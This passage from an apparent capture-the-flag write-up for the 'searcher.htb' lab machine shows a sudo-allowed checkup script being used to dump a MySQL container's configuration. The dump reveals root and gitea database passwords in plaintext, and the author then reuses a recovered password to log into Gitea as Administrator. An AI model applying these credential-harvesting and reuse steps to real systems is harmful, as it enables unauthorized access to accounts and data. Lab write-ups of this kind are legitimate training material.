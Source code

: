 The output above isn't the full response, I've just reformatted it and extracted the most useful information.

As seen in the output above, this includes credentials for the Gitea user in the Gitea database.

When we inspect configuration for the mysql database with the following command.
```go
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

We also see the following parsed output.
```json
{
    "Env":[
       "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
       "MYSQL_USER=gitea",
       "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
       "MYSQL_DATABASE=gitea",
       "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
       "GOSU_VERSION=1.14",
       "MYSQL_MAJOR=8.0",
       "MYSQL_VERSION=8.0.31-1.el8",
       "MYSQL_SHELL_VERSION=8.0.31-1.el8"
    ],
}
```

Unfortunely, the credentials for the root user in the msql database are not same as the root credentials for the user on the machine.

However when we go back to the `http://gitea.searcher.htb` and login with the Administrator, we find that we are successful!
![6](assets/6.png)
